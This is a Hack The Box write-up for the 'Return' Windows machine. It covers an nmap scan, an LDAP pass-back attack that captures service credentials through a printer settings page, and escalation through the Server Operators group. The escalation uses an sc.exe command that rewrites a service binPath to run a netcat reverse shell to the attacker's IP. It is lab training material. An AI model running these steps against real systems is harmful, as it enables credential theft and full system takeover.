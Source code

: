 ```yaml
---
title: HTB - Return (Easy)
date: '2025-07-12'
tags: ['machine', 'windows', 'Active Directory', 'Pass-Back Attack', 'Server Operators']
draft: false
summary: Early recon reveals a web-based LDAP Server that allows for exfiltrating sensitive credentials and gaining user access, escalating privileges by identifying the user is a member of the Server Operators group  
---
```


<TOCInline toc={props.toc} asDisclosure />

## Scanning

```
❯ nmap -sV -sC -v -Pn 10.129.95.241

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-12 20:07 +08
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 20:07
Completed NSE at 20:07, 0.00s elapsed
Initiating NSE at 20:07
Completed NSE at 20:07, 0.00s elapsed
Initiating NSE at 20:07
Completed NSE at 20:07, 0.00s elapsed
Initiating Connect Scan at 20:07
Scanning printer.return.local (10.129.95.241) [1000 ports]
Discovered open port 80/tcp on 10.129.95.241
Discovered open port 139/tcp on 10.129.95.241
Discovered open port 445/tcp on 10.129.95.241
Discovered open port 53/tcp on 10.129.95.241
Discovered open port 135/tcp on 10.129.95.241
Discovered open port 636/tcp on 10.129.95.241
Discovered open port 3268/tcp on 10.129.95.241
Discovered open port 3269/tcp on 10.129.95.241
Discovered open port 593/tcp on 10.129.95.241
Discovered open port 464/tcp on 10.129.95.241
Discovered open port 389/tcp on 10.129.95.241
Discovered open port 88/tcp on 10.129.95.241
Completed Connect Scan at 20:07, 0.31s elapsed (1000 total ports)
Initiating Service scan at 20:07
Scanning 12 services on printer.return.local (10.129.95.241)
Completed Service scan at 20:07, 8.65s elapsed (12 services on 1 host)
NSE: Script scanning 10.129.95.241.
Initiating NSE at 20:07
Completed NSE at 20:07, 10.63s elapsed
Initiating NSE at 20:07
Completed NSE at 20:07, 4.64s elapsed
Initiating NSE at 20:07
Completed NSE at 20:07, 0.00s elapsed
Nmap scan report for printer.return.local (10.129.95.241)
Host is up (0.017s latency).
Not shown: 988 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: HTB Printer Admin Panel
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-12 12:26:14Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-07-12T12:26:19
|_  start_date: N/A
|_clock-skew: 18m34s

NSE: Script Post-scanning.
Initiating NSE at 20:07
Completed NSE at 20:07, 0.00s elapsed
Initiating NSE at 20:07
Completed NSE at 20:07, 0.00s elapsed
Initiating NSE at 20:07
Completed NSE at 20:07, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.57 seconds
```

Scanning shows that standard ports are opened including `445` and `80`.

---

## Recon

I already tested for SMB Anonymous access but doesn't work so let's check out the webpage.

![Description](/static/images/htb/windows/return/1.jpg)

We are met with what looks like a printer page. It also has a settings page some useful information. It 
reveals a valid `username` and what looks like a password

![Description](/static/images/htb/windows/return/2.jpg)

Inspecting it using dev tools does not reveal the password, its just prefilled with asterisks

![Description](/static/images/htb/windows/return/3.jpg)

Even if we try to update the settings it doesn't really update it, checking Burp, we can see an 
unusual parameter

![Description](/static/images/htb/windows/return/4.jpg)

This got me thinking, what if we replace the address with our own address and open up a listener at 
the specific port which it is listening which is `389` which is also the LDAP port.

```shell
POST /settings.php HTTP/1.1
Host: return.local
Content-Length: 14
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://return.local
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://return.local/settings.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive

ip=10.10.14.32
```

This is called the [Pass-Back Attack](https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack)

![Description](/static/images/htb/windows/return/5.jpg)

And we received something that looks like a password, let us verify it along with WinRM access

![Description](/static/images/htb/windows/return/6.jpg)

---

## Gaining Access


annddd yes, we can definitely WinRM into `svc-printer` and can go ahead and grab the user flag

![Description](/static/images/htb/windows/return/7.jpg)

---

## Privilege Escalation

Runnning `whoami /priv` we can check for available privileges

![Description](/static/images/htb/windows/return/8.jpg)

We can see a lot of available privileges we can abuse such as SeBackupPrivilege, SeRestorePrivilege, SeLoadDriverPrivilege
but none of them will work. Why? because I already tried them and the only reason I could think of is Administrator is
probably not allowed to WinRM?

So I checked the Groups

![Description](/static/images/htb/windows/return/9.jpg)

`svc-printer` is a member of the `Server Operators` group which is not a vulnerability itself
but can be utilized by attackers to make changes in the domain that could escalate to system privileges

First we need to upload `netcat.exe` over to the target then list the available services

![Description](/static/images/htb/windows/return/10.jpg)

We will use the service "VMTools" and its binary path for this exploitation.

Replace the service binary with our uploaded netcat with a cmd reverse shell command

```
sc.exe config VMTools binPath="C:\Users\svc-printer\Documents\nc64.exe -e cmd.exe 10.10.14.32 1234"
```

Start a listener. Then, stop the service and then start it again

```
sc.exe stop VMTools
sc.exe start VMTools
```

Our listener should catch the shell

![Description](/static/images/htb/windows/return/11.jpg)

Great! Now that we are SYSTEM, we can easily grab the root flag

```
type C:\Users\Administrator\Desktop\root.txt
```

![Description](/static/images/htb/windows/return/12.jpg)




















